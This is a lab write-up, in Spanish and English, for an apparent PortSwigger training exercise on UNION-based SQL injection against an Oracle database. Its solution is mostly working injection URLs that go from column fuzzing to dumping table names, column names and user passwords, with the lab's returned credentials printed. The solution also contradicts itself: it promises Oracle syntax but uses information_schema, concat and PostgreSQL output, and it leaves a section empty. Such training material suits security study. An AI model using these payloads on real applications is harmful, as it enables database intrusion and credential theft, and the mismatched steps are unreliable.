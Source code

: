 # `LAB`: SQL injection attack, listing the database contents on Oracle

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

## Hint

On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual` 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a `Oracle`
- En este caso es llegar hasta el login con `adminsitrador`
- Es un poco diferente a MySQL el dump de información de Oracle, así que pondré el proceso completo:

### Explicación para enumerar `Tablas`, `Columnas` y `Data` Oracle

Enumerar en Oracle Base de Datos, versión, etc:

````sql
# Banner:
SELECT banner FROM v$version
# Version:
SELECT version FROM v$instance
````

En Oracle se pone originalmente para mostrar todas las tables:

````sql
# Enumerar nombres de tablas:
SELECT table_name FROM all_tables;
````

Para seleccionar solo la base de datos que estamos usando en Oracle es más fácil utilizar los usarios que utilizan la DB _(en este caso el más obvio de un user no default era "Peter")_:

````sql
# Enumerar propietarios de tablas:
SELECT table_name FROM all_tables WHERE owner = 'PETER';
````

## Solución:

````py
# Vulnerabilidad y sanamiento
.web-security-academy.net/filter?category=Pets' -- -

# Mostrar info oculta (opcional)
.web-security-academy.net/filter?category=Pets' or 1 = 1 -- -

# Fuzzing Número de Columnas
.web-security-academy.net/filter?category=Pets' order by 2 -- -

## Columnas vulnerables: Como es caso de Oracle NO SIRVE el siguiente query:
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' -- -

## Columnas vulnerables: Este es el que se debe utilizar, con la default table "dual":
.web-security-academy.net/filter?category=-Pets' Union Select '1','2' FROM dual -- -

    ### Enumer Tablas:

# Utilizar sintaxis Oracle para enumerar:








## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets' Union Select '1',schema_name FROM information_schema.schemata -- -
    # information_schema
    # public
    # pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
    # products
    # users_tcaine

## Dumpear el Nombre de las Columnas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users_tcaine' -- -
    # password_wyuxxb
    # username_fzanak

## Dumpear los Datos
.web-security-academy.net/filter?category=-Pets' Union Select '1',concat(password_wyuxxb,' ::: ',username_fzanak) from users_tcaine -- -
.web-security-academy.net/filter?category=-Pets' Union Select '1',password_wyuxxb||' : '||username_fzanak from users_tcaine -- -
    # ybh5rrmndjm9grpgaac3 ::: administrator
    # f18xc226xxi0tb4g9zpv ::: carlos
    # onix1tykwp2vvyphg0gb ::: wiener
````
